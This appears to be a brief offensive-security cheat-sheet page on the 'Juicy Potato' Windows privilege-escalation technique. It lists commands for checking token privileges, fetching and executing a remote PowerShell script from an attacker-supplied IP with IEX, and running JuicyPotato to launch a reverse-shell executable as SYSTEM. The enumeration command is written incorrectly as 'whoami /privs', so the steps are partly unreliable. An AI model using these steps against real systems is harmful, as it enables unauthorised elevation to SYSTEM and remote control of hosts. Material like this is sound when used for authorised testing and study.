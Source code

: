 ```yaml
---
description: Potato is yummy
---
```


# Juicy Potato

Enumerate either the`SeImpersonate` or `SeAssignPrimaryToken` privileges

```bash
whoami /privs
```

After identifying the appropriate privileges, upload the [Juicy Potato binary](https://github.com/ohpe/juicy-potato) to the host. Then run the following command to enumerate valid CLSID's for use with JuicyPotato&#x20;

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://[IP]/GetCLSID.ps1')
```

After enumerating a valid CLSID we can run the following command:&#x20;

```powershell
.\Juicy.exe -t t -p C:\Windows\Tasks\reverse.exe -l 5837 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}
```
